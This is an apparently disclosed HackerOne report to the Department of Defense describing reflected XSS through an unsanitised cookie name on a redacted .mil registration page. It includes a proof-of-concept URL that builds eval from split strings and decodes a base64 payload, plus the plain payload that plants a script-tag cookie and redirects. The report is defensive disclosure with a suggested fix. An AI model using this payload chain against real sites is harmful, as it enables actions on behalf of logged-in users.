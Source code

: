 # [HTAF4-213] [Pre-submission] XSS via arbitrary cookie name at the https://www2.██████/nssi/core/dot_stu_reg/Registration.aspx

## Report Details
- **Report ID**: 728001
- **URL**: https://hackerone.com/reports/728001
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-11-02T20:23:42.929Z
- **Disclosed**: 2024-06-18T16:56:14.418Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
We identified XSS via cookie name on the `https://www2.███████/nssi/core/dot_stu_reg/Registration.aspx` endpoint.
The first cookie name is getting reflected on the page without sanitization:
█████

##POC (you can use Chrome Incognito mode for clear experiment)
To trigger XSS on the https://www2.██████████/nssi/core/dot_stu_reg/Registration.aspx we used XSS on the different .████.mil property, to set the cookie to the `.███.mil` which can be visible from the `www2.████`, and then do redirect to the vulnerable endpoint:
```
https://███████.███████.mil/kc/main/pop_up_frm.asp?loc=javascript:top[%27ev%27+%27al%27](atob(%27ZG9jdW1lbnQuY29va2llPSd6eno8c2NyaXB0PmFsZXJ0KGRvY3VtZW50LmRvbWFpbik8L3NjcmlwdD49enp6O3BhdGg9Lztkb21haW49LmFmLm1pbCc7IHdpbmRvdy50b3AubG9jYXRpb24uaHJlZiA9ICdodHRwczovL3d3dzIucGV0ZXJzb24uYWYubWlsL25zc2kvY29yZS9kb3Rfc3R1X3JlZy9SZWdpc3RyYXRpb24uYXNweCc7%27))
```
The plain payload:
```
document.cookie='zzz<script>alert(document.domain)</script>=zzz;path=/;domain=.████.mil'; window.top.location.href = 'https://www2.███████/nssi/core/dot_stu_reg/Registration.aspx';
```
The result:
██████████
Video:
████████

##Suggested fix
We feel there is no need to reflect cookies, generic error message should be more than enough.

## Impact

Reflected XSS. The `https://www2.█████████/nssi/` has authenticated experience, such as login/registration/manage endpoints for courses users, and it can be used for interactions on their behalf.

## Attachments
No attachments
